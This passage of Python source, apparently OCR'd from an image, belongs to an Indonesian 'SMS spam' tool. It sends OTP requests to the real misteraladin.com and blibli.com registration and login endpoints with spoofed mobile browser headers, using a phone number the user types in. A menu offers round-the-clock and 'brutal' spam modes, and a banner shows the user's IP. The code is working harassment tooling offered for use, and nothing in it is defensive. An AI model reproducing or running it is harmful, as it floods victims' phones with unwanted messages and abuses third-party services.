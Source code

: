             aladin=requests.post("https://m.misteraladin.com/api/members/v2/otp/request",headers={"Host":"m.misteraladin.com","accept-language":"id","sec-ch-ua-mobile":"?1","content-type":"application/json","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; CPH2325) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","x-platform":"mobile-web","sec-ch-ua-platform":"Android","origin":"https://m.misteraladin.com","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://m.misteraladin.com/account","accept-encoding":"gzip, deflate, br"},data=json.dumps({"phone_number_country_code":"62","phone_number":nomor,"type":"register"})).text
            bli=requests.post("https://www.blibli.com/backend/common/users/_request-otp",headers={"Host":"www.blibli.com","content-length":"27","accept":"application/json, text/plain, */*","content-type":"application/json;charset=UTF-8","sec-ch-ua-mobile":"?1","user-agent":"Mozilla/5.0 (Linux; Android 11; CPH2325) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","sec-ch-ua-platform":"Android","origin":"https://www.blibli.com","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.blibli.com/login?ref=&logonId=0"+nomor,"accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"username":"0"+nomor})).text
            autoketik(f"{W}[{G}✓{W}] Sukses Mengirim Spam")
            countdown(120) # Jangan Diubah !!!!

def banner():
    ip=requests.get('https://api.ipify.org').text
    autoketik (f"""
             {biru}╔╗ {putih}┬─┐┬ ┬┌┬┐┌─┐┬        {ungu}╔═╗{putih}┌┬┐┌─┐
             {biru}╠╩╗{putih}├┬┘│ │ │ ├─┤│  {R} ───  {ungu}╚═╗{putih}│││└─┐
             {biru}╚═╝{putih}┴└─└─┘ ┴ ┴ ┴┴─┘      {ungu}╚═╝{putih}┴ ┴└─┘
     \033[1;0m──────────────────────────┬─────────────────────────
  \033[1;0m┌────────────────────────────┼───────────────────────────┐
  {W}│ Creator{R}:{W}AmmarBN            │ Version {R}:{G} 3.0{W}             │
  {W}│ Github{R}:{G}github.com/AmmarrBN {W}│ {W}Your Ip {R}:{Y} {ip}   {W}│
  {W}│ Team{R}:{W}Executed {biru}Team         {W}│ Perfect Brutal {biru}Sms Tools  {W}│
  └────────────────────────────┼───────────────────────────┘""")

def banner2():
    print (f"""{putih}           ┌───────────────────┴─────────┬──────────┐
           {putih}│ 1{R}.{W}Spam On 24 jam ({Y}delay{W})    │{G}  Online  {W}│
           {putih}│ 2{R}.{W}Spam Brutal Normal ({Y}delay{W})│{G}  Online  {W}│
           {putih}│ 3{R}.{W}Laporkan Bug              │{G}  Online  {W}│
           {putih}│ 4{R}.{W}Exit Tools                │{B}   null   {W}│
           {putih}└─────────────────────────────┴──────────┘""")

def start(): # Def Untuk Start Tools
    banner()
    banner2()
    pil=input(f"        Input Number : ")
    if pil == "1":
        jam()
    if pil == "2":
        normal()
        tanya()
    if pil == "3":
        os.system("xdg-open https://www.instagram.com/ammarexecuted")
        print (f"{Y}${W} Terima Kasih Telah Menyampaikan Eror,Creator Akan Segera Memperbaiki")
        tanya()
    if pil == "4":
        print (f"{W}[{R}!{W}] Exited With Program")
        sys.exit()
